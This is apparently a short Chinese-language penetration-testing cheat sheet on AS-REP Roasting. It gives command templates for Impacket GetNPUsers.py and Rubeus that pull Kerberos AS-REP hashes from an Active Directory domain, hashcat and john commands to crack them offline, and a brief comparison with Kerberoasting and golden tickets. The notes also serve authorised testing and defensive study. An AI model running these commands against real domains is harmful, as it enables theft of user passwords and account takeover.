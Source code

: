 ```yaml
---
title: "AS-REP Roasting"
author: ["4shen0ne"]
draft: false
---
```


如果用户开启了“不使用Kerberos预认证”，攻击者就可以获取到Kerberos AS-REP，经过用
户的RC4-HMAC密码加密过的，然后他就可以离线破解这个凭证了

With Impacket example GetNPUsers.py:

```bash
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

With Rubeus:

```bash
# check ASREPRoast for all users in current domain
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
```

Cracking with dictionary of passwords:

```bash
hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>

john --wordlist=<passwords_file> <AS_REP_responses_file>
```

几种攻击手法的区别：

-   AS-REP Roasting：获取用户hash然后离线暴力破解
-   [Kerberoasting]({{< relref "kerberoasting.md" >}})：获取应用服务hash然后暴力破解
-   黄金票据：通过假冒域中不存在的用户来访问应用服务
